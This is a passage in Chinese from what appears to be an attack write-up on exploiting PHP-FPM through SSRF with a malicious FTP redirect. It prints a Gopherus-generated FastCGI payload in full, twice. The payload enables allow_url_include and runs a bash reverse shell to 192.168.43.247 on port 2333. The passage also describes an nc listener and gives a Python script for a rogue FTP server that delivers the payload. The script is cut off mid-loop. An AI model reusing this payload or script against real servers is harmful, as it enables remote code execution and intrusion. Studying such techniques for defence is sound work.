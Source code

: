 得到payload，而我们需要的是上面payload中 `_` 后面的数据部分，即：

```plain
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好nc监听：

[![](assets/1698897074-3c5abe5fdb9ca79d64ec41d3d6e70ee1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9223f966-b2e5-1.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的ftp服务，并将上面的payload中的数据替换掉下面ftp脚本中的payload的内容：

```plain
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
```